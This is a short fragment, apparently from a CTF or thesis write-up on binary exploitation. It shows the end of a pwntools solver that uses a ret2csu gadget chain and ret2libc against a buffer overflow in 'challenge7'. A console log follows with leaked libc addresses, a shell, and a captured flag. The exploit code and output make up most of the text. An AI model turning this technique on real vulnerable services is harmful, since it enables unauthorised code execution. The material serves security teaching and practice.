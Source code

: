 ```python
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  g1 = e.sym.__libc_csu_init + 90
  g2 = e.sym.__libc_csu_init + 64

  # Leak with ret2csu
  r.sendlineafter(">", gadgets(b"A"*offset, g1, g2))
  
  ret2libc(r, prompt, offset)

if __name__ == "__main__":
  pwn()

```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge7/challenge/challenge7'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './challenge7'
[*] '/home/w3th4nds/github/Thesis/challenge7/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
[+] Leaked address    @ 0x7f5db577e210
[+] Libc base address @ 0x7f5db566e000
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{wh4t_15_r3t2Csu?!}$ 
```
